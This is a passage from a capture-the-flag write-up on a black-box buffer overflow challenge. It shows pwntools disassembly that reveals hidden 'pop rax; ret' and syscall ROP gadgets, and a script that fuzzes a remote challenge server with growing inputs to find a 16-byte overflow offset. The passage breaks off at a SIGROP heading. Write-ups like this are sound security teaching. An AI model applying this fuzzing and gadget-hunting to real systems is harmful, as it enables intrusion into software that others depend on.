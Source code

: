 ```
~ 4%XXÐ]UH4%XXÐ]UHHHY | 0x7f014c0229a0
~ Would you like another push (Y/*) >>> Y
~ 4%XXÐ]UHHHY | (nil)
~ Would you like another push (Y/*) >>>
```
If we use a python terminal with pwntools' asm() and disasm() to both view the bytes comprising these instructions and reassemble subsections of those bytes, we can see that the "push 0x58585858; ret" instruction contains the much more useful "pop rax; ret" gadget, and the "push 0x0f050f05; ret" instruction contains a syscall gadget. One thing to note about the syscall gadget is that it does not neatly ret out, so care does need to be taken when crafting payloads. 
```
>>> from pwn import *
>>> context.clear(arch='amd64')
>>> asm('push 0x58585858; ret')
b'hXXXX\xc3'
>>> disasm (b'X\xc3')
'   0:   58                      pop    rax\n   1:   c3                      ret'
>>> asm('push 0x0f050f05; ret')
b'h\x05\x0f\x05\x0f\xc3'
>>> disasm(b'\x0f\x05\x0f\xc3')
'   0:   0f 05                   syscall \n   2:   0f                      .byte 0xf\n   3:   c3                      ret'
```
Based on the provided ROP gadgets, a buffer overflow in our input seems like the most likely vector of attack. Since this is a black box challenge, the main way to determine if such an overflow exists is by simply feeding the program larger and larger inputs until it crashes. Here is a simple script designed to do just that:
```
from pwn import *

target = remote('0.cloud.chals.io', 21978)

print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
i = 1
while True:
    
    target.sendline(b'a' * i)
    print(i)
    result = (target.recvuntil(b'Would you like another push (Y/*) >>>', timeout=1))
    if not result:
        print(i)
        break
    i += 1

target.interactive()
```
The results show that it gets up to a payload 16 characters in length (adding one to include the newline character) before crashing, which makes sense as a padding length since they tend to be numbers divisible by eight in 64-bit architectures.

## Attempting to SIGROP:
